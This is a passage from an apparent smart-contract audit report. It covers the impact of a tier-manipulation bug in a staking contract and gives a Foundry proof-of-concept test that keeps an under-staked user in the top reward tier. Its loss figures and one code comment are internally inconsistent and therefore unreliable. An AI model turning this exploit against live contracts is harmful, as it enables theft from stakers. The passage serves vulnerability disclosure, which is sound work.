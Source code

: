 **3. Systemic Risks**  
- **Trust Collapse**: Users lose faith in FCFS guarantees  
- **Governance Attacks**: Tier manipulation could affect voting power  
- **Protocol Insolvency**: Cumulative reward calculation errors may drain reserves  

**4. Quantifiable Metrics**  
```math
\text{Max Exploit Gain} = \frac{\text{Tier1 APY} - \text{Tier3 APY}}{\text{Total Staked}} \times \text{Attack Duration}
```
Example:  
- Tier1 APY = 20%  
- Tier3 APY = 5%  
- 100 ETH staked → Attacker gains **0.15 ETH/day** indefinitely  

**5. Long-Term Consequences**  
- ↗️ **Increased centralization** (whales dominate top tiers)  
- ↘️ **TVL erosion** as users exit broken system  
- ⚠️ **Legal risks** from misrepresented FCFS mechanism  


This impact analysis demonstrates:  
- Immediate financial dangers  
- Protocol-level integrity breaches  
- Quantitative risk modeling  

### PoC



### **Proof of Concept (PoC)**

**Test File:** `test/FenwickExploit.t.sol`  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/LayerEdgeStaking.sol";

contract FenwickPoC is Test {
    LayerEdgeStaking staking;
    address alice = address(0xA);
    address bob = address(0xB);

    function setUp() public {
        staking = new LayerEdgeStaking();
        staking.initialize(address(this), 100, 20, 10, 5); // minStake=100
    }

    function test_FenwickCorruption() public {
        // 1. Initial stakes
        vm.prank(alice);
        staking.stake(1000); // Tier 1 (first 20%)
        vm.prank(bob);
        staking.stake(500);  // Tier 2 (next 30%)

        // 2. Exploit: Alice unstakes 90% but stays in Tier 1
        vm.prank(alice);
        staking.unstake(900); // Now has 100 (< minStake)

        // 3. Verify corruption
        (, uint256 aliceTier, ) = staking.getUserInfo(alice);
        (, uint256 bobTier, ) = staking.getUserInfo(bob);
        
        // Alice should be Tier 3, Bob should be Tier 1
        assertEq(aliceTier, 1, "Alice incorrectly kept Tier 1");
```